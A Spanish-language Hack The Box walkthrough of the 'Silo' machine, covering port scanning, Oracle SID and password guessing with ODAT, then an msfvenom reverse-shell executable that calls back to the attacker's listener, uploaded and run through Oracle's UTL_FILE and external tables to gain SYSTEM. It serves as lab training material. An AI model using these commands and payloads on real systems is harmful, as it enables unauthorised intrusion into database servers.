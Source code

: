 ```yaml
---
layout: post
title: HTB_Silo.md
date: 2023/07/10
---
```


# Silo {-}

## Introduccion {-}

La maquina del dia 11/08/2021 se llama Silo
.

El replay del live se puede ver aqui

[![S4vitaar Silo maquina](https://img.youtube.com/vi/-nb98Pb8oP0/0.jpg)](https://www.youtube.com/watch?v=-nb98Pb8oP0&t=910s)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.82
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.82
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.82 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 10.10.10.82 -oN targeted
```


| Puerto | Servicio   | Que se nos occure?             | Que falta? |
| ------ | ---------- | ------------------------------ | ---------- |
| 80     | http       | Web, fuzzing                   |            |
| 135    | msrpc      |                                |            |
| 139    | netbios    |                                |            |
| 445    | smb        | Null session                   |            |
| 1521   | oracle-tns | Attacke con ODAT               |            |
| 5985   | msrpc      | Puertos por defecto de windows |            |
| 47001  | msrpc      | Puertos por defecto de windows |            |
| 49152  | msrpc      | Puertos por defecto de windows |            |
| 49153  | msrpc      | Puertos por defecto de windows |            |
| 49154  | msrpc      | Puertos por defecto de windows |            |
| 49155  | msrpc      | Puertos por defecto de windows |            |
| 49159  | msrpc      | Puertos por defecto de windows |            |
| 49160  | msrpc      | Puertos por defecto de windows |            |
| 49161  | msrpc      | Puertos por defecto de windows |            |
| 49162  | msrpc      | Puertos por defecto de windows |            |


### Analyzando el SMB {-}

```bash
crackmapexec smb 10.10.10.82
smbclient -L 10.10.10.82 -N
```

Vemos que estamos en frente de una maquina Windows Server 2021 R2 de 64 bit pro que se llama **SILO** en el dominio **SILO** y poco mas

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.82
```

Nada muy interressante aqui


#### Checkear la web {-}

Sabemos que es un IIS 8.5 y asp.net pero poco mas. Vamos a fuzzear routas.


## Vulnerability Assessment {-}

### Oracle ataque con ODAT {-}

#### Installacion de ODAT {-}

```bash
git clone https://github.com/quentinhardy/odat
cd odat
git submodule init
git submodule update
sudo apt-get install libaio1 python3-dev alien python3-pip
pip3 install cx_Oracle
```

Como la maquina victima es de 64 bits, descargamos los client basic sdk y sqlplus de la web de oracle

```bash
mkdir isolation
cd isolation
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-basic-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-sqlplus-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-devel-21.1.0.0.0-1.x86_64.rpm
```

ahora transformamos los `.rpm` en `.deb` y lo installamos

```bash
alien --to-deb *.rpm
dpkg -i *.deb
```

Añadimos las variables de entorno el la .zshrc

```bash
ls /usr/lib/oracle

#Output
21

vi ~/.zshrc

export ORACLE_HOME=/usr/lib/oracle/21/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
```

Checkeamos que todo se aya installado bien

```bash
sqlplus64
python3 odat.py --help
```

#### Ataque con ODAT {-}

1. Buscamos si encontramos SID's

    ```bash
    python3 odat.py sidguesser -s 10.10.10.82
    ```

1. Ataque de typo password guesser

    ```bash
    locate oracle_ | grep "pass"
    cat /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt | tr ' ' '/' | > passwords
    python3 odat.py passwordguesser -s 10.10.10.82 -d XE --accounts-file passwords
    ```

1. Ahora que tenemos un usuario y una contraseña utilizamos el parametro utlfile que permite descargar, uploadear y supprimir ficheros

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f exe -o shell.exe
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger"
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger" --putFile /Temp shell.exe
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger" --putFile /Temp shell.exe
    ```

1. No tenemos sufficientes privilegios para subir archivos pero ODAT tiene un parametro `--sysdba` que nos puede ayudar

    ```bash
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger" --putFile /Temp shell.exe --sysdba
    ```

1. Intentamos ganar accesso al systema
## Vuln exploit & Gaining Access {-}

### Ganando accesso con ODAT {-}

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Intentamos ejecutar el exploit con odat

```bash
python3 odat.py --help
python3 odat.py externaltable -s 10.10.10.82 -d XE -U "scott" -P "tiger" --sysdba --exec /Temp shell.exe
```

Ya hemos ganado accesso al systema y ademas somos nt authority\system que significa que no es necessario hacer escalada de privilegios.
